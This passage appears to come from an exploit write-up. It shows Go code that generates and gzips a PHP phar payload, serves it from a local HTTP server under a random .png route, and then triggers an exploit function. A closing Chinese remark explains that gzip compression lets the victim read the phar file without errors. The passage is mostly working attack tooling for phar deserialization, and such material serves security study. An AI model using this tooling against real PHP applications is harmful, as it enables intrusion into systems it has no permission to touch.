 ```go
        return nil
    }
    return errors.New("Step three error")
}

// Generate exp file
func genExpFile() error {
    fmt.Println("[**]Genrate exp file ....")
    pharFile := exec.Command("php", "exp.php")
    pharFile.Dir = "exp/"
    err := pharFile.Run()
    if err != nil {
        return errors.New("Generate exp file failed...1")
    }

    gzPharFile := exec.Command("gzip", "exp.phar")
    gzPharFile.Dir = "exp/"
    err = gzPharFile.Run()
    if err != nil {
        return errors.New("Generate exp file failed...2")
    }

    fmt.Println("[++]Genrate exp file successfully")
    return nil
}

func main() {
    rand.Seed(time.Now().Unix())
    router = fmt.Sprintf("%d.png", rand.Intn(10000))
    serverUrl = "http://127.0.0.1:8882/" + router
    go func() {
        err := genExpFile()
        if err != nil {
            fmt.Println("[--] ", err)
        }
        timer := time.After(time.Second)
        select {
        case <-timer:
            exp()
        }
    }()
    http.HandleFunc("/"+router, index)
    http.ListenAndServe(":8882", nil)
}
```

> 有个需要注意的地方,  如果直接生成phar文件让受害者读取的话会出现错误，所以这里我使用了gzip进行压缩之后再读取就不会出现这个问题.
